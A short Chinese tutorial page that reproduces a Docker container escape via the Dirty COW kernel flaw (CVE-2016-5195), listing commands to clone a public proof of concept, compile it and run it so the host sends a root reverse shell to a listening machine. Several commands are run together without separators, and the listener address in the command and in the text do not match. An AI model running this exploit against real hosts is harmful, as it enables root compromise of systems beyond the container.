


# 内核DirtyCow(CVE-2016-5195)脏牛漏洞实现Docker 逃逸

- ### 内核漏洞导致Docker 逃逸

## ⭐DirtyCow(CVE-2016-5195)脏牛漏洞实现Docker 逃逸

> Docker 与 宿主机共享内核，因此容器需要在存在dirtyCow漏洞的宿主机里

**漏洞简述：**
Dirty Cow（CVE-2016-5195）是Linux内核中的权限提升漏洞，通过它可实现Docker容器逃逸，获得root权限的shell。

**漏洞测试：**
1、环境准备:
docker与宿主机共享内核，因此我们需要存在dirtyCow漏洞的宿主机镜像。
这里，我们使用ubuntu-14.04.5来复现。
2、测试容器下载并运行：

```bash
git clone https://github.com/gebl/dirtycow-docker-vdso.gitcd dirtycow-docker-vdso/sudo docker-compose run dirtycow /bin/bash
```

3、进入容器，编译POC并执行:

```
cd /dirtycow-vdso/make./0xdeadbeef 203.0.113.1:1234
```

- 

4、在192.168.111.129监听本地端口，成功接收到宿主机反弹的shell。

